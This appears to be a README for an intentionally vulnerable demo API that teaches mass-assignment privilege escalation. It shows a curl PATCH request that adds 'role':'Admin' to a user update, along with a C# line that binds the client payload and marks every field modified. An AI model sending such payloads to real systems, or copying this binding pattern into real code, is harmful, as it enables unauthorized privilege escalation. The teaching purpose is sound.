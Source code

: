 ## Getting user details

Retrieve user JSON:

```bash
curl -s http://localhost:5182/users/1 | jq
```

---

## Benign user details update

Safe update (no role elevation):

```bash
curl -s -X PATCH http://localhost:5000/users/1 \
  -H "Content-Type: application/json" \
  -d '{"FullName": "Alice L. Example", "Email": "alice.new@example.test"}' \
  | jq
```

---

## Malicious user details update (example)

Example of a request that attempts privilege escalation by adding `role: "Admin"`:

```bash
curl -s -X PATCH http://localhost:5182/users/1 \
  -H "Content-Type: application/json" \
  -d '{"Id":1,"FullName":"Alice L. Example","Username":"alice","Email":"alice@example.test", "role":"Admin"}' \
  | jq
```

---

## Vulnerable code (highlight)

```csharp
// Intentionally vulnerable: binds straight to User entity and marks all fields Modified
_db.Entry(dto).State = EntityState.Modified;
```

**Why this is dangerous:** it blindly trusts client payload and updates every column — allows elevation (e.g., `role`) and unexpected data changes.

---

